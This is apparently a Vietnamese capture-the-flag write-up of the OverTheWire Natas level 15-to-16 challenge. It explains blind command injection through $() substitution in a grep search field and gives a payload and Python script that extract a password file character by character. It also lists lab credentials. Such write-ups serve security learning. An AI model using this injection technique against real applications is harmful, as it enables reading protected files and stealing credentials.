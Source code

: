 ```
```
    
---
### 16. Lv15 -> Lv16

>username/password : **natas16/TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V** 

Bài này tương tự một số bài ở level trước, cho phép chúng ta tìm từ có chứa ký tự do mình chỉ định.

![](https://i.imgur.com/Eqvwj0q.png)

Tuy nhiên khi check code thì thấy rằng nó được code một cách bảo mật hơn. Với các regular một cách kỹ càng hơn.

![](https://i.imgur.com/naDrVa2.png)

Vậy để có thể bypass được điều này thì ta cần biết đến cách sử dụng `$()`.Nó có thể lồng các câu lệnh con vào làm tham số của một câu lệnh khác.
Ví dụ : Ở đây chương trình sẽ chạy bên trong `$()`trước và lấy giá trị đó làm tham số cho echo bên ngoài.
```
echo $(echo abc)
#result : abc
```
Vậy bây giờ ta sẽ dùng nó để có thể truyền tham số cho lệnh grep. Cơ bản cấu trúc sẽ như thế này `grep -i $(tham số) dictionary.txt`. 

Nhưng truyền như thế nào để có thể xác định được mật khẩu cho level tiếp theo. Ở đây chúng ta có thể sử dụng biểu thức chính quy để có thể dò từng ký tự giống như `blind sqli` ở trên.
Payload lúc này sẽ là `$(grep -E ^a.* /etc/natas_webpass/natas17)` với option `-E` là để sử dụng Extended Regular Expression, `^a` là để chỉ ra rằng password bắt đầu bằng a. Còn `.*` là một biểu thức chính quy cho phép tìm kiếm bất kỳ ký tự nào (bao gồm cả ký tự rỗng) sau ký tự `a`. Khi thực hiện payload này sẽ có 2 trường hợp xảy ra.

- Nếu password level tiếp theo bắt đầu bằng chữ `a`. Thì sẽ trả vể giá trị password làm tham số cho lệnh ngoài, lúc này sẽ là `grep -i password dictionary.txt`. Điều này dẫn đến kết quả sẽ không có gì cả.
- Nếu password level tiếp theo không bắt đầu bằng chữ `a`. Thì kết quả trả về là giá trị rỗng và làm tham số cho lệnh ngoài, thì lúc này sẽ là `grep -i '' dictionary.txt`. Điều này dẫn đến kết quả sẽ in ra tất cả các giá trị trong `dictionary.txt`.

Vậy ta sẽ dùng phương pháp thử này để có thể dự đoán được password cho level tiếp theo. Thực hiện dự đoán bằng burpsuite tương tự như blind SQLI ở trên thì ta có được password là `XkEuChE0SbnKBvH1RU7ksIb9uuLmI7sd`

Hoặc có thể sử dụng đoạn code python này để làm điều tương tự một cách đơn giản hơn 

```
import requests
import sys
from string import digits, ascii_lowercase, ascii_uppercase

charset = ascii_lowercase + ascii_uppercase + digits
s = requests.Session()
s.auth = ('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')

password = ""
while len(password) < 32:
    for char in charset:
        payload = {'needle': '$(grep -E ^%s.* /etc/natas_webpass/natas17)' % (password + char)}
        r = s.get('http://natas16.natas.labs.overthewire.org/index.php', params=payload)

        if len(r.text) == 1105:
            sys.stdout.write(char)
            sys.stdout.flush()
            password += char
            break
```